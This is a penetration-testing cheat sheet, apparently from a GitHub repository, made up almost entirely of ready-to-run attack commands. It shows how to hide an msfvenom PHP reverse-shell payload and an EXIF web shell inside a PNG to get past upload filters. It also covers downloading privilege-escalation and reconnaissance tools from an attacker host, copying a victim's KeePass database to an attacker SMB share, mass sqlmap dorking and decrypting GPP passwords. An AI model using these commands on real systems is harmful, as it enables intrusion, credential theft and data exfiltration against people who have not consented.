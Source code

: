 # Image upload bypass

Inject payload on image data
```bash
head -n100 real_image.png > payload_image.png
msfvenom -p <payload> LHOST=<kali-ip> LPORT=4444 -f php -o msfvenom_payload.php
cat msfvenom_payload.php >> payload_image.png
```
Inject payload on image metadata
```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' payload_image.png
curl http://website.org/uploads/payload_image.png?cmd=whoami
```

-----------------------

# File transfering via HTTP

Serve File
```bash
python3 -m http.server 80
```
Linux
```bash
wget http://kali-ip/filename
curl http://kali-ip/filename -o filename
```
Windows
```bash
certutil -urlcache -f http://kali-ip/filename filename
iwr -uri http://kali-ip/filename -OutFile filename
(New-Object Net.WebClient).DownloadFile('http://kali-ip/filename', 'filename')
```
-----------------------
# File transfer via SMB

Serve Folder
```bash
impacket-smbserver -ip 192.168.45.177 -smb2support -username sombi -password sombi SombiShare files
```
Connect via powershell
```bash
$pass = convertto-securestring 'sombi' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('sombi', $pass)
New-PSDrive -Name sombi -PSProvider FileSystem -Credential $cred -Root \\192.168.45.245\SombiShare

cd kali:
copy kali:\PrintSpoofer64.exe C:\TEMP
copy kali:\ncat.exe C:\TEMP
copy kali:\SharpHound.exe C:\TEMP
```
Connect via native windows
```bash
net use X: \\192.168.45.172\SombiShare /user:sombi sombi
xcopy C:\Users\milana\Documents\Database.kdbx X:\ /Y
```
-----------------------

# user SMB server within the Windows machine (Native Windows)
```bash
net use X: \\192.168.45.172\SombiShare /user:sombi sombi
xcopy C:\Users\milana\Documents\Database.kdbx X:\ /Y
```
-----------------------

# SQLMAP dorks
```bash
sqlmap -g "inurl:\"php?id=\"" --random-agent -f --batch --answer="extending=N,follow=N,keep=N,exploit=n"
```
-----------------------

# Decrypt Secure string Windows
```bash
<Properties>
...
cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
...
</Properties>

gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
-----------------------

# Take ownership of file on Windows
```bash
takeown /F filename
cacls id_rsa /E /G "Administrators":R
```
-----------------------

# Fix windows path
```bash
echo %path%
C:\Users\tony\AppData\Local\Microsoft\WindowsApps

#let's update the path
set PATH=%PATH%;C:\Windows\System32\;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\wbem\;
```
